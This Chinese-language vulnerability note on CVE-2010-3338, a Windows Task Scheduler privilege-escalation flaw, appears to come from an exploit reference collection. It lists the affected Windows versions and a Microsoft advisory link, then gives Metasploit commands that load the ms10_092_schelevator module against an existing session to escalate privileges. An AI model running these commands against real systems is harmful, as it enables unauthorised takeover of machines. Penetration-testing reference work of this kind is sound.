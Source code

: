 ### CVE-2010-3338

#### 描述

The Windows Task Scheduler in Microsoft Windows Vista SP1 and SP2, Windows Server 2008 Gold, SP2, and R2, and Windows 7 does not properly determine the security context of scheduled tasks, which allows local users to gain privileges via a crafted application, aka "Task Scheduler Vulnerability." NOTE: this might overlap CVE-2010-3888.

#### 影响版本

| Product             | Version | Update | Edition | Tested |
| ------------------- | ------- | ------ | ------- | ------ |
| Windows 7           | -       |        |         |        |
| Windows Server 2008 | -       | SP2    | Itanium |        |
| Windows Server 2008 |         |        | X64     |        |
| Windows Server 2008 |         | SP2    | X32     |        |
| Windows Server 2008 |         | SP2    | X64     |        |
| Windows Server 2008 |         |        | Itanium |        |
| Windows Server 2008 |         |        | X32     |        |
| Windows Server 2008 | R2      |        | X64     |        |
| Windows Server 2008 | R2      |        | Itanium |        |
| Windows Vista       |         | SP1    |         |        |
| Windows Vista       |         | SP1    | X64     |        |
| Windows Vista       |         | SP2    |         |        |
| Windows Vista       |         | SP2    | X64     |        |

#### 修复补丁

```
https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2010-3338
```

#### 利用方式

测试系统 windows server 2008 sp2 x86，利用msf执行如下命令即可，x64版本msf不支持

```
use exploit/windows/local/ms10_092_schelevator
set SESSION 2
run
```

![image-20200822234422637](https://github.com/Ascotbe/Random-img/blob/master/WindowsKernelExploits/CVE-2010-3338_win2008_x86_msf.png?raw=true)

然后就能提权成功了

![image-20200822234608009](https://github.com/Ascotbe/Random-img/blob/master/WindowsKernelExploits/CVE-2010-3338_win2008_x86_msf2.png?raw=true)

